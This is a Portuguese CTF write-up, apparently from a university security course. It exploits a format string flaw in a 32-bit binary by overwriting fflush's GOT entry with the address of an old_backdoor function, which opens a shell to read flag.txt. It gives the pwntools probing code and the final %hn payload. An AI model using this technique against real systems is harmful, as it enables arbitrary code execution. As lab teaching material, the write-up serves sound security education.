

# Final Format - CTF Extra

Inicialmente exploramos o ficheiro disponibilizado na plataforma CTF que é o mesmo que está a ser executado no servidor na porta 4007. Com o comando **checksec** verificamos que `program` não tem o binário randomizado mas existem proteções do endereço de retorno usando canários:



Como só tínhamos acesso ao binário, utilizamos os comandos seguintes para exibir os *exported symbols* e fazer o *disassembly*:

```bash
$ objdump -t program    # show exported symbols
$ objdump -D -S program # show disassembly
```

Isto permitiu ver também o nome das funções implementadas no ficheiro. Destacaram-se de imediato a função `main` e a função `old_backdoor`:


A dica disponibilizada, "Removemos a nossa special feature, já não há flags para ninguém", indica que este CTF tem conexão com o CTF 2 da semana 7. Nesse existia uma backdoor que podia aberta manipulando o valor de uma variável, a "special feature", e com isso ganhar acesso à shell do servidor. Aqui essa chave já não existe mas há uma chamada ao sistema do género no funcionamento interno da função:


Como a flag (flag.txt) está no *workdirectory* é de interesse que a main chame esta *backdoor*. Notamos que main invoca `flush()` antes e depois de `scanf()`. Scanf quando incorretamente utilizado permite a cópia de indefinidos bytes do stdin para o buffer local. Com um ataque do género **format string** podemos usurpar a segunda chamada de `flush()` através do input.


O endereço de old_backdoor é constante (0x08049236) pois não há randomização de endereços. Por outro lado, fflush é uma função da CLIB e por isso há *linking* dinâmico com o programa. Uma tabela GOT (*Global Offset Table*), disponível usando o comando `objdump -R` e cujo o funcionamento foi estudado por [aqui](https://maskray.me/blog/2021-08-29-all-about-global-offset-table) guarda os endereços de todas as funções usadas. A de fflush é 0x0804c010:


O objetivo do ataque é agora escrever o valor 0x08049236 na zona de memória apontada pela GOT na entrada da fflush 0x0804c010. Assim, a função main ao invocar pela segunda vez fflush() irá chamar old_backdoor() em vez da tradicional função da CLIB.

Primeiro avaliamos o estado da stack de forma a concluir o offset inicial necessário antes de cada endereço. Para isso usamos caracteres de formato hexadecimal conhecidos:

```python
ctf_server = remote('ctf-fsi.fe.up.pt', 4007)
ctf_server.recvuntil(b'...')
ctf_server.sendline(b'AAAA%X%X%X%XBBBB%X%X%X%X')
ctf_server.interactive()
```

A format string resultou no seguinte conjunto de caracteres, cujos grupos foram separados para uma melhor visualização. Tal como observado, para os argumentos capturarem o conteúdo apontado pela string de formatação são necessários apenas 4 bytes, ou seja, 4 quaisquer caracteres antes do endereço:

```note
AAAA 41 41 41 41 5825 5825 5825 5825 42 42 42 42 BBBB 5825 5825 5825 5825
```

A escrita de 0x08049236 no endereço completo não pode ser feita numa só operação devido a dois fatores:
- `%n` ou até mesmo `%hn` só escreve nos 2 bytes menos significativos do endereço apontado;
- escrever 134517302 bytes (0x08049236) no input é demasiado demorado para o período de *timeout* imposto pelo servidor CTF;

É, portanto, necessário realizar duas escritas: uma com a parte mais significativa e outra com a parte menos significativa:

> hex(0x08049236) -> int(134517302) <br>
> 0x08049236 -> 0x0804 e 0x9236 <br>
> hex(0x0804) -> int(2052) <br>
> hex(0x9236) -> int(37430) <br>

Note-se que a parte menos significativa do valor a escrever é maior do que a parte menos significativa, pelo que é necessário escrever 2052 bytes primeiro. Este valor tem de ser escrito na parte mais significativa do endereço apontado por 0x0804c010, ou seja, em 0x0804c010 + 2 = 0x0804c012. Fazendo as transformações de string necessárias:

> 0x0804c010 -> \x10\xc0\x04\x08 <br>
> 0x0804c012 -> \x12\xc0\x04\x08 <br>

Chegamos a uma format string capaz de levar a cabo o ataque. A notação `%.Nx` permite escrever o valor lido de memória com N algarismos significativos, o que é importante para não ocorrer buffer overflow:

```python
ctf_server.sendline(b'FFFF\x12\xc0\x04\x08FFFF\x10\xc0\x04\x08%.Ax%hn%.Bx%hn')
```

Só falta calcular o valor de A (que escreve na parte mais significativa do endereço) e de B (que escreve na parte menos significativa do endereço). Antes de A escrevemos 8 caracteres e 2 endereços de 4 bytes cada, ou seja, 16 bytes no total. Assim o valor de A é 2052 - 16 = 2036 bytes. Antes de B escrevemos no total 2052 bytes logo faltam 37430 - 2052 = 35378 bytes. A format string final ficou:

```python
ctf_server.sendline(b'FFFF\x12\xc0\x04\x08FFFF\x10\xc0\x04\x08%.2036x%hn%.35378x%hn')
```

Tal como esperado, ao executar o script conseguimos que main invocasse old_backdoor e assim abrir uma shell no servidor para espreitar o conteúdo do ficheiro `flag.txt`:

